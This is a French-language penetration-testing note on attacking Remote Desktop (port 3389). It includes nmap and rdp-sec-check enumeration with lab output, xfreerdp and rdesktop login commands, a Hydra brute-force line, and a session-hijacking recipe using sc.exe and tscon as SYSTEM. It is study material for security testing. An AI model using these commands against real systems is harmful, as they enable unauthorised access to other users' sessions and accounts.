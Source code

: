 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```

Port : 3389/tcp

## Enumeration

### Nmap

```shell-session
nmap -sV -sC $TARGET_IP -p3389 --script rdp*

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info: 
|   Target_Name: ILF-SQL-01
|   NetBIOS_Domain_Name: ILF-SQL-01
|   NetBIOS_Computer_Name: ILF-SQL-01
|   DNS_Domain_Name: ILF-SQL-01
|   DNS_Computer_Name: ILF-SQL-01
|   Product_Version: 10.0.17763
|_  System_Time: 2021-11-06T13:46:00+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Outil permettant d'identifier les paramètres de sécurité d'un serveur RDP sans s'authentifier
https://github.com/CiscoCXSecurity/rdp-sec-check

```
$ sudo cpan
cpan[1]> install Encoding::BER
```

### RDP Security Check

```shell-session
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
[+] Scanning 1 hosts

Target:    10.129.201.248
IP:        10.129.201.248
Port:      3389

[+] Checking supported protocols

[-] Checking if RDP Security (PROTOCOL_RDP) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if TLS Security (PROTOCOL_SSL) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if CredSSP Security (PROTOCOL_HYBRID) is supported [uses NLA]...Supported

[+] Checking RDP Security Layer

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_NONE...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_40BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_128BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_56BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_FIPS...Not supported

[+] Summary of protocol support

[-] 10.129.201.248:3389 supports PROTOCOL_SSL   : FALSE
[-] 10.129.201.248:3389 supports PROTOCOL_HYBRID: TRUE
[-] 10.129.201.248:3389 supports PROTOCOL_RDP   : FALSE

[+] Summary of RDP encryption support

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_NONE   : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_40BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_128BIT : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_56BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_FIPS   : FALSE

[+] Summary of security issues


rdp-sec-check v0.9-beta completed at Sun Nov  7 16:50:33 2021
```

## Connexion RDP depuis linux

Clients : `xfreerdp`, `rdesktop`, ou `Remmina`

 ```shell-session

xfreerdp /u:$AD_USER /p:$AD_PASSWORD /v:$TARGET_IP /drive:shareName,/tmp /size:1900x900 

rdesktop -u $AD_USER -p $AD_PASSWORD $TARGET_IP

```

## Attaques / Exploitations

### Exploits

- Bluekeep (fix en 2019)
 
### Brute force RDP avec Hydra
 ```
hydra -L user.list -P password.list rdp://$TARGET_IP
```

### RDP Session Hijacking

Objectif : basculer sur une session RDP d'une autre session RDP (sans saisie de mot de passe)
Prérequis : être administrateur local (pour pouvoir devenir SYSTEM)

```
# On récupère sa session active et celle que l'on souhaite hijacker
query user
 USERNAME              SESSIONNAME       ID  STATE   IDLE TIME  LOGON TIME
>attacker              rdp-tcp#1          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#2          2  Active          *  8/25/2021 1:28 AM

# Creation d'un service qui lancera TSCON.EXE en tant que SYSTEM
## tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#1"

# Lancement du service
net start sessionhijack
```

### RDP Pass the Hash

xfreerdp peut faire du PtH. Il est toutefois nécessaire de désactiver un mécanisme de sécurité via la base de registre.
Voir : [[Pass The Hash (PtH)]]
